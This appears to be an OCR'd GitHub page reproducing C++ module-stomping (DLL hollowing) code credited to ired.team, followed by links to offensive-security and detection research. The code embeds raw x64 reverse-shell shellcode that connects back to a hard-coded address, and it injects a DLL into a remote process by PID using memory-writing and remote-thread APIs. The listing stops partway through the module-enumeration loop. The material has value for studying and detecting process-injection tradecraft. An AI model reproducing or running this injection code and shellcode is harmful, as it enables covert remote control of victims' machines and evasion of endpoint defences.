 

```cpp

# Taken from:
# https://www.ired.team/offensive-security/code-injection-process-injection/modulestomping-dll-hollowing-shellcode-injection
# Creadits: @spotheplanet

#include <iostream>
#include <Windows.h>
#include <psapi.h>

int main(int argc, char *argv[])
{
	HANDLE processHandle;
	PVOID remoteBuffer;
	wchar_t moduleToInject[] = L"C:\\windows\\system32\\amsi.dll";
	HMODULE modules[256] = {};
	SIZE_T modulesSize = sizeof(modules);
	DWORD modulesSizeNeeded = 0;
	DWORD moduleNameSize = 0;
	SIZE_T modulesCount = 0;
	CHAR remoteModuleName[128] = {};
	HMODULE remoteModule = NULL;

	// simple reverse shell x64
	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

	// inject a benign DLL into remote process
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	//processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 8444);
	
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof moduleToInject, MEM_COMMIT, PAGE_READWRITE);
	WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)moduleToInject, sizeof moduleToInject, NULL);
	PTHREAD_START_ROUTINE threadRoutine = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	HANDLE dllThread = CreateRemoteThread(processHandle, NULL, 0, threadRoutine, remoteBuffer, 0, NULL);
	WaitForSingleObject(dllThread, 1000);
	
	// find base address of the injected benign DLL in remote process
	EnumProcessModules(processHandle, modules, modulesSize, &modulesSizeNeeded);
	modulesCount = modulesSizeNeeded / sizeof(HMODULE);
	for (size_t i = 0; i < modulesCount; i++)
```

[1]: https://github.com/klezVirus/inceptor.git
[2]: https://github.com/Idov31/FunctionStomping
[3]: https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/
[4]: https://github.com/Idov31/FunctionStomping
[5]: https://twitter.com/Idov31
[6]: https://twitter.com/hasherezade
[7]: https://twitter.com/modexpblog
[8]: https://www.arashparsa.com/bypassing-pesieve-and-moneta-the-easiest-way-i-could-find/
[9]: https://twitter.com/waldoirc
[10]: https://github.com/waldo-irc/YouMayPasser/
[11]: https://blog.f-secure.com/cowspot-real-time-module-stomping-detection/
[12]: https://twitter.com/_rastamouse
[13]: https://offensivedefence.co.uk/posts/module-stomping/